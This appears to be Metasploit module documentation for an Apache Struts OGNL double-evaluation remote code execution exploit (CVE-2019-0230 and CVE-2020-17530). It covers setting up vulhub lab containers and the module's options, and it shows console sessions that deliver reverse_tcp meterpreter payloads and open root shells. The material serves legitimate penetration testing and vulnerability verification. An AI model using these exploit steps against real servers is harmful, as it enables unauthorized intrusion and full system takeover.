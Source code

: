## Vulnerable Application
The Apache Struts framework, when forced, performs double evaluation of attributes' values assigned to certain tags
attributes such as `id`. It is therefore possible to pass in a value to Struts that will be evaluated again
when a tag's attributes are rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

This vulnerability is application dependent. A server side template must make an affected use of request data to
render an HTML tag attribute.

Vulnerable versions of Apache Struts for both CVEs are provided by [vulhub][1] on GitHub. The setup instructions are identical
for both CVEs, just use the provided files in the correct directory.

1. Use `git` to clone `https://github.com/vulhub/vulhub.git`.
1. Change the current working directory to the one corresponding to the CVE that should be tested. For CVE-2019-0230, use
  `struts2/s2-059` and for CVE-2020-17530, use `struts2/s2-061`.
1. From within the directory, run `docker-compose up -d`
1. (OPTIONAL) Run `docker-compose exec struts2 bash` to obtain an interactive shell within the container. This is useful
  for debugging purposes.

* CVE-2019-0230 was patched in 2.5.20
* CVE-2020-17530 was patched in 2.5.26

### Example Setting Up CVE-2020-17530 / S2-061

```
[smcintyre@localhost ~]$ git clone https://github.com/vulhub/vulhub.git
Cloning into 'vulhub'...
remote: Enumerating objects: 234, done.
remote: Counting objects: 100% (234/234), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 10171 (delta 86), reused 191 (delta 69), pack-reused 9937
Receiving objects: 100% (10171/10171), 130.98 MiB | 8.36 MiB/s, done.
Resolving deltas: 100% (4014/4014), done.
[smcintyre@localhost ~]$ cd vulhub/struts2/s2-061
[smcintyre@localhost s2-061]$ docker-compose up -d
Creating network "s2-061_default" with the default driver
Pulling struts2 (vulhub/struts2:2.5.25)...
2.5.25: Pulling from vulhub/struts2
756975cb9c7e: Pull complete
d77915b4e630: Pull complete
5f37a0a41b6b: Pull complete
96b2c1e36db5: Pull complete
27a2d52b526e: Pull complete
93a36defce60: Pull complete
9e2014d79b30: Pull complete
ac71d4ce2ce4: Pull complete
a2f817e4badf: Pull complete
62ac51b7362f: Pull complete
e12f6705ebbe: Pull complete
4f4fb700ef54: Pull complete
97ba98138d72: Pull complete
Digest: sha256:eaf49b95f2c178cca77d3c8454f79a4fe4ed4dd9d342c9e9a911e842565217d2
Status: Downloaded newer image for vulhub/struts2:2.5.25
Creating s2-061_struts2_1 ... done
[smcintyre@localhost s2-061]$ docker-compose exec struts2 bash
root@d37b5ab61b87:/usr/src#
```

## Verification Steps

1. Install the vulnerable application, see the "Vulnerable Application" section.
1. Start `msfconsole`
1. Do: `use exploit/multi/http/struts2_multi_eval_ognl`
1. Set `RHOSTS` to the address of the target(s) to exploit.
1. Set `CVE` to the ID of the CVE you wish to run against the target: either `CVE-2020-17530` or `CVE-2019-0230`.
1. Do: `run`

## Options

### NAME
The HTTP query parameter or form data name. This option is closely related to the vulnerability and will likely be
application specific in real world environments. This must be the name of a parameter sent through either a GET or POST
request to the application that is reflected back as an HTML attribute. The module's `check` method will utilize this
value to determine if it can be used to evaluate OGNL expressions.

### CVE
The CVE to try exploit on `RHOSTS`, either `CVE-2020-17530` or `CVE-2019-0230`.

### TARGETURI
The base path to a valid Struts application on the target machine or machines.

### CMDSTAGER::DELAY
Delay between command executions. Set this value higher if the target tends to be slow to respond.

### HttpCookie
An optional cookie to include when making the HTTP request.

## Scenarios

### CVE-2020-17530 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2020-17530
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.18.0.2:46770) at 2020-12-15 19:43:28 -0500
[*] Command Stager progress - 100.00% done (820/820 bytes)

meterpreter > getuid
Server username: root @ d37b5ab61b87 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.6 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### CVE-2019-0230 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set CVE CVE-2019-0230
CVE => CVE-2019-0230
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2019-0230
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.19.0.2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.19.0.2:47884) at 2020-12-15 19:47:10 -0500

meterpreter > getuid
Server username: root @ 91f7855f1eda (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 10.5 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/vulhub/vulhub

